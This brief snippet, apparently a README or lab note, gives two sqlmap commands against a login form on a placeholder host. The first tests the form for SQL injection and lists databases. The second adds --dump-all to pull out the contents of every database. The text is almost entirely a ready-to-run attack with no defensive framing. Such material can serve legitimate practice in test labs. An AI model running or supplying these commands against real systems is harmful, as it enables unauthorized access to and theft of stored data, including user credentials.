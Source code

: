 Validate whether the system is vulnerable.
```sqlmap -u "http://somehost/index.php?page=login.php" --data "user_name=u&password=p&Submit_button=Submit" --dbs```

Dump everything
```sqlmap -u "http://somehost/index.php?page=login.php" --data "user_name=u&password=p&Submit_button=Submit" --dbs --dump-all```

